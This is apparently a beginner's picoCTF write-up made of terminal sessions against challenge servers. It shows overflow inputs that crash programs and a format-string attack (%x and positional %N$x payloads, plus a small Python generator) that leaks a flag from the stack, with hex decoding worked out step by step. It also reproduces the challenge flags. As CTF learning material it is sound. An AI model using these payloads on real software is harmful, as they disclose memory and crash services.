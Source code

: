 earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53208
Input: wqeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

_______________________________________________________________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 1e2qwe21.#\
There is no such burger yet!

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}

_______________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
Here's a story -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&


qew
eqweqeqeqeqeq
^Z
[1]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> \0
Here's a story -
\0

^Z
[2]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> %s
Here's a story -
%s
^C
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> flag.txt
Here's a story -
flag.txt





https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/




earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53394
Tell me a story and then I'll tell you one >> %x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x
Here's a story -
ff9a22c0:ff9a22e0:8049346:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:

by copy pasting into a hexadec to text website https://www.rapidtables.com/convert/number/hex-to-ascii.html
we get
ÿ"Àÿ"àI4bS§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§WS§§S¢S§RS§ö6´eD6³C4ÅövãsFÄffcóGE5


after some trail and error i just deleted part of the initial text
now translating 
78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:
we get
x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%x%:x:x%:%:x%%:xocip{FTCk43L_gn1g4lFff0_4tS_

of which ocip{FTCk43L_gn1g4lFff0_4tS_ looks like the flag but jumbled
{k43L_gn1 g4lF ff0_ 4tS _     |  picoCTF{L34king_Fl4g_0ff_St4_

it seems like im missing a bit of the the flag since it doesnt close the bracket

using this python code
```bash
a= _some integer_

for i in range(1,10):
    b=str(a+i)
    print("%"+b+"$x:",end='')
```
Tell me a story and then I'll tell you one >> %6$x:%7$x:%8$x:%9$x:%10$x:%11$x:%12$x:%13$x:%14$x:
Here's a story -
38253a78:253a7824:3a782439:24303125:31253a78:3a782431:24323125:31253a78:3a782433:
translates to
8%:x%:x$:x$9$01%1%:x:x$1$21%1%:x:x$3

after a few iterations i got 

%31$x:%32$x:%33$x:%34$x:%35$x:%36$x:%37$x:%38$x:%39$x:
Here's a story -
1:eaab4000:8048338:eaa78d20:ea8fdab0:6f636970:7b465443:6b34334c:5f676e31:
translates to
ª´8ê§ êÚ°ocip{FTCk43L_gn1


Tell me a story and then I'll tell you one >> %36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:
Here's a story -
6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:395f6b63:30366635:

translates to
ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5

im still missing a close brackets so i increase the limits

earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 55320
Tell me a story and then I'll tell you one >> %36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:%45$x:%46$x:%47$x:%48$x:%49$x:
Here's a story -
6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:395f6b63:30366635:7d373136:fbad2000:a96d3100:0:f336d990:
translates to

ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716û­ ©m13m

`ocip {FTC k43L _gn1 g4lF ff0_ 4tS_ 9_kc 06f5 }716`
rearrages to picoCTF{L34king_Fl4g_0ff_St4ck_95f60617}
which doesnt seem to work for god knows why
nvm it was because the flag shouldve been `picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`
leaking was 1ng not ing
